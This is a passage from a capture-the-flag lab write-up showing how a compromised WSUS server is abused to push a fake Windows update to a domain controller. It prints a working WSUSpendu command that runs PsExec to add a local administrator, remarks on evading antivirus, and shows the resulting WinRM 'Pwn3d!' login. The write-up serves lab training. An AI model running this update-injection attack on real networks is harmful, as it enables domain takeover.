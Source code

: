 ```
ComputerRole              : Server
LastSyncTime              : 8/26/2024 3:08:04 PM
LastSyncResult            : Succeeded
LastReportedStatusTime    : 8/26/2024 3:08:05 PM
LastReportedInventoryTime : 1/1/0001 12:00:00 AM
RequestedTargetGroupName  :
RequestedTargetGroupNames : {}
ComputerTargetGroupIds    : {b73ca6ed-5727-47f3-84de-015e03f6a88a,
                            a0a08746-4dbe-4a37-9adf-9e7652c0b421}
ParentServerId            : 00000000-0000-0000-0000-000000000000
SyncsFromDownstreamServer : False
```

We can also double-check that this configuration is in place by visiting the `Windows Server Update Services` GUI that should be accessible through our RDP session.

![](/images/vulnlab/tea-vl/k.png)

As you can see, it seems we have confirmed that the DC is configured to receive Windows updates from our current workstation, `SRV`. This means that we should be able to exploit this functionality and add a local admin through our update distribution.

We can exploit this relatively easily with tools such as [WSUSpendu](https://github.com/alex-dengx/WSUSpendu) and [SharpWSUS](https://github.com/nettitude/SharpWSUS). These tools can allow us to distribute fake Windows updates and attach our PowerShell commands to them, essentially performing a mock update distribution process. I had more luck with `WSUSpendu`, so we'll use that for our scenario.

We'll also need a copy of PsExec as to avoid any form of endpoint detection or antivirus. You can find PsExec on the [SysInternals Suite](https://learn.microsoft.com/en-us/sysinternals/downloads/sysinternals-suite), or use the one provided under `C:\_install` on `SRV`.

In the below example we'll be adding a new local admin onto the DC that we can use to login through WinRM or RDP.

```
.\WSUSpendu.ps1 -Inject -PayloadFile C:\temp\PsExec64.exe -PayloadArgs '-accepteula -s -d cmd.exe /c "net user daz Password123@ /add && net localgroup administrators daz /add"' -ComputerName dc.tea.vl
```

`WSUSpendu` performs all of the update configuration that is required on the backend, all that's left is to wait for the DC to take the update and execute the attached PowerShell command. This took a bit of time with my experience, generally around 5 minutes. In a real environment we'd potentially be able to speed this up by creating a phishing campaign to coerce the Windows workstation to accept the update.

After waiting around five minutes, we can see that our domain admin was added successfully.

```
└─$ nxc winrm 10.10.252.213 -u 'daz' -p 'Password123@'
WINRM       10.10.252.213   5985   DC               [*] Windows Server 2022 Build 20348 (name:DC) (domain:tea.vl)
WINRM       10.10.252.213   5985   DC               [+] tea.vl\daz:Password123@ (Pwn3d!)
```

Now that we have WinRM access to the DC, we can simply log in and read the root flag.
